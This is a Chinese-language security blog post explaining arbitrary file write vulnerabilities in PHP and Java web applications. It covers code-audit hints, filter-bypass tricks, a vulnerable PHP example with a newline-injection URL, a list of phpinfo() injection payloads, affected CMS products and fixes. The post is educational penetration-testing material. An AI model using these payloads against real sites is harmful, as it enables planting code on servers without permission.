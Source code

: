 ```yaml
---
layout: post
title:  "一篇文章深入理解任意文件写入漏洞"
categories: Web安全
tags: 任意文件写入 
author: 0e0w
---
```


* content
{:toc}
这是一篇关于任意文件写入漏洞的文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年4月10日。
> 任意文件写入不同与文件上传漏洞，有些人也称之为是命令执行漏洞。漏洞出现的原因经常是在后台的一些配置文件修改编辑等处，程序开发过程中将这些配置信息未做好过滤保存到了文件中，用户可以在文件中写入任意的内容，导致漏洞产生。

## 0x01 概述

任意文件写入可以直接Getshell，危害很大。但在渗透测试中，往往出现在Cms中。不进行代码审计的情况下，较难直接获取权限，因为无法判断写入到了那个文件中，但也有例外的情况。关于任意文件写入漏洞，有三个前提条件：

- 文件写入函数的参数用户可控；
- 可控参数没有做好过滤；
- 写入的文件类型为可执行文件。

## 0x02 代码审计

任意文件写入漏洞代码审计思路：寻找文件写入或文件保存等相关函数，查看函数中变量用户是否可控，是否进行了过滤处理，是否保存到了可执行文件中。一般采用代码审计工具可以很好的找出此类漏洞，对于误报情况较大的情况，只需要人工去逐个分析排查即可。

### PHP文件写入

**相关函数**

- fopen() 创建文件，打开文件或URL。

  ```php
  $file = fopen("admin.php", "w")
  ```

- fwrite() 写入文件

  ```php
  fwrite($file, $str)
  ```

- file_put_contents() 把字符串写入文件

  ```php
  file_put_contents("admin.php","<?PHP phpinfo();?>");
  ```

- fputcsv() 将行数据格式化为CSV格式并写入文件

- fputs() 将字符串写入文件

- socket_write() 写一个 Socket

- session_write_close() 向Session中写入数据并终止Session

- ftp_nb_get() 从FTP服务器上获取文件并写入本地文件

- imagefttext() 使用FreeType2字体将文本写入图像

- imagettftext() 用TrueType字体向图像写入文本

### Java文件写入

**相关函数**

- FileWriter()
- BufferedWriter()

### 基础绕过方法

没有任何过滤直接将字符串写入文件的情况还是比较少的。有一部分漏洞是已经对参数做了过滤，但是没有完美过滤，导致使用某些技巧可言绕过。

- 利用换行符来绕过正则匹配。

  ```php
  <?php
  $api = addslashes($_GET['api']);
  $file = file_get_contents('./option.php');
  $file = preg_replace("/\\\$API = '.*';/", "\$API = '{$api}';", $file);
  file_put_contents('./option.php', $file);
  ```

  - update.php?api=aaaaa%27;%0aphpinfo();//
  - update.php?api=aaaaa

- 利用 preg_replace函数的问题。

- 利用 preg_replace() 第二个参数，自动转义反斜线。

- 利用正则\n|$n，将第n个子组替换到文本中

  ```php
  $a = 'aa1234aa';
  $b = preg_replace('/aa(\d+)aa/', 'bb\1bb', $a);
  echo $b;
  ```

- 多次提交进行逃逸。

## 0x03 渗透测试

在渗透测试中，可以在配置文件修改等地方插入类似的payload，查看当前页面的返回情况，或者是通过以往的经验来判断文件写入的位置。很多情况下，配置文件也并非是写入到了可执行文件中，而是写入到了数据库中。在渗透测试中，任意文件写入有俩种常见的情况：

- 配置文件处任意字符串写入

- 程序安装时install任意字符串写入

**常见payload**

```php
<?php phpinfo();?>
phpinfo();
";phpinfo();//
";@phpinfo();//
';phpinfo();//
‘;phpinfo();//
';@phpinfo();//
\',@phpinfo(),//',
\';phpinfo();//
aaa';phpinfo();%0a//
';%0aphpinfo();//
;phpinfo();
\%27;%0aphpinfo();%23
\%27;%0aphpinfo();//
\%27);%0aphpinfo();%23
\%27);phpinfo();%23
';phpinfo();//
");phpinfo();//
```

## 0x04 典型案例

出现过任意文件写入漏洞的程序。

- phpcms 
- SeaCms
- Discuz 
- 74cms
- dedecms
- 致远OA v8任意文件写入

## 0x05 漏洞修复

- 尽量避免在可执行文件中保存字符串内容。
- 对写入的字符串进行完美的过滤。

## 0x06 参考链接

- https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html
- http://suo.im/5VUqhn
- https://blog.csdn.net/Ca3tie1/article/details/104830356